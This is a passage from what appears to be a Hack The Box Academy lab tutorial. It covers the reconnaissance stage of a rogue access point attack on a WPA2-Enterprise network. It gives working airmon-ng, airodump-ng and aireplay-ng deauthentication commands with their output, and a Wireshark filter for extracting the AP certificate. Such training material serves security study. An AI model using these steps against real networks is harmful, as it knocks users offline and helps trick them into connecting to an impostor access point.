 * * *

## Performing the attack

### 1\. Scan for the Target

The first step is to identify the target access point by discovering its SSID and gathering additional details, such as its certificate information. This helps ensure the rogue AP closely mimics the legitimate one, increasing the likelihood of user connections. To start capturing WPA handshake data, once we've our interface in monitor mode, we can use `airodump-ng` with the `-w` WPA argument to save the scan output into a file with the WPA prefix. This process will create a `WPA-01.cap` file, which will automatically update with new data as the scan continues.

```shell
airmon-ng start wlan0

```

```shell
airodump-ng wlan0mon -c 1 -w WPA

 CH  1 ][ Elapsed: 36 s ][ 2024-08-23 10:19 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9C:9A:03:39:BD:7A  -28 100      372       77    0   1   54   WPA2 CCMP   MGT  HTB-Wireless

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 9C:9A:03:39:BD:7A  9A:B7:A6:32:F3:D6  -29    9 -48      0       95  PMKID  HTB-Wireless

```

```shell
aireplay-ng -0 1  -a 9C:9A:03:39:BD:7A -c 9A:B7:A6:32:F3:D6 wlan0mon

19:41:12  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]
19:41:12  Sending 64 directed DeAuth (code 7). STMAC: [9A:B7:A6:32:F3:D6] [ 0| 0 ACKs]

```

Once we have captured the WPA handshake, we can use the `WPA-01.cap` file to extract important details such as the username, domain name, and handshake certificate from the captured data. To obtain the handshake certificate using `Wireshark`, we can apply the filter `(wlan.sa == 9c:9a:03:39:bd:7a) && (tls.handshake.certificate)`. This filter focuses on the AP's BSSID to isolate the relevant packet containing the certificate. The extracted certificate can provide valuable information about the access point as shown in the below screenshot.

![handshake](https://academy.hackthebox.com/storage/modules/291/handshake.png)

* * *
